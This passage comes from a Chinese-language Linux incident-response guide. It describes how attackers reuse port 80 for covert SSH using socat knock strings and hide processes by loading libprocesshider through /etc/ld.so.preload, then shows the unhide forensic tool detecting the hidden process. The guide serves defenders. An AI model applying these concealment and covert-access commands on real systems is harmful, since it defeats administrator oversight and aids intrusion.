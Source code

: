 利用方式：

```
#开启复用
echo threathuntercoming | socat - tcp:192.168.28.128:80
#ssh使用80端口进行登录
ssh -p 80 root@192.168.28.128
#关闭复用
echo threathunterleaving | socat - tcp:192.168.28.128:80
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-2-4.png)

具体文章详见：[远程遥控 IPTables 进行端口复用](https://www.freebuf.com/articles/network/137683.html)

### 0x07 进程隐藏

管理员无法通过相关命令工具查找到你运行的进程，从而达到隐藏目的，实现进程隐藏。

第一种方法：libprocesshider

github项目地址：https://github.com/gianlucaborello/libprocesshider

利用 LD_PRELOAD 来实现系统函数的劫持，实现如下

```
# 下载程序编译
git clone https://github.com/gianlucaborello/libprocesshider.git
cd libprocesshider/ && make
# 移动文件到/usr/local/lib/目录下
cp libprocesshider.so /usr/local/lib/
# 把它加载到全局动态连接局
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

测试：运行 evil_script.py，

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-2-5.png)

此时发现在top 与 ps 中都无法找到 evil_script.py， cpu 使用率高,但是却找不到任何占用cpu高的程序。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-2-6.png)

如何在Linux中发现隐藏的进程，

`unhide` 是一个小巧的网络取证工具，能够发现那些借助rootkit，LKM及其它技术隐藏的进程和TCP / UDP端口。这个工具在Linux，UNIX类，MS-Windows等操作系统下都可以工作。

下载地址：http://www.unhide-forensics.info/

```
# 安装
sudo yum install unhide
# 使用
unhide [options] test_list
```

使用`unhide proc`发现隐藏进程evil_script.py，如下图所示：
